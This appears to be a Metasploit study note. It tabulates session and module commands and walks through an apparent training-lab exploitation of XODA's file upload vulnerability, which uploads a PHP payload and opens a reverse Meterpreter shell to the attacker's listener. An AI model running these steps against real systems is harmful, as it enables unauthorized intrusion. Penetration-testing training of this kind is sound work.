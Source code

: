 ### Session Management Commands:
| Command | Purpose | Example |
|---------|---------|---------|
| `sessions -l` | List active sessions | `sessions -l` |
| `sessions -i 1` | Interact with session | `sessions -i 1` |
| `sessions -k 1` | Kill specific session | `sessions -k 1` |
| `sessions -K` | Kill all sessions | `sessions -K` |
| `background` | Background current session | `background` |

### Module Configuration Commands:
| Command | Purpose | Example |
|---------|---------|---------|
| `show options` | Display module options | `show options` |
| `show advanced` | Show advanced options | `show advanced` |
| `show evasion` | Display evasion options | `show evasion` |
| `show targets` | List available targets | `show targets` |
| `set target 0` | Select specific target | `set target 0` |
| `setg RHOSTS` | Set global variable | `setg RHOSTS 192.168.1.0/24` |

## 🧪 Real Lab Examples

### Example 1: XODA File Upload Exploitation
```bash
# Phase 1: Start MSFConsole and search for XODA exploit
msfconsole
msf6 > search xoda

# Output: Shows exploit/unix/webapp/xoda_file_upload module

# Phase 2: Select and configure the exploit
msf6 > use exploit/unix/webapp/xoda_file_upload
msf6 exploit(unix/webapp/xoda_file_upload) > set RHOSTS demo1.ine.local
msf6 exploit(unix/webapp/xoda_file_upload) > set TARGETURI /
msf6 exploit(unix/webapp/xoda_file_upload) > set LHOST 192.63.4.2

# Phase 3: Execute exploitation
msf6 exploit(unix/webapp/xoda_file_upload) > exploit

# Output: 
# [*] Started reverse TCP handler on 192.63.4.2:4444
# [*] Sending PHP payload (3bxiDM.php)
# [*] Executing PHP payload (3bxiDM.php)
# [*] Sending stage (39927 bytes) to 192.63.4.3:55022
# [!] Deleting 3bxiDM.php
# [*] Meterpreter session 1 opened (192.63.4.2:4444 → 192.63.4.3:55022)

meterpreter >
```
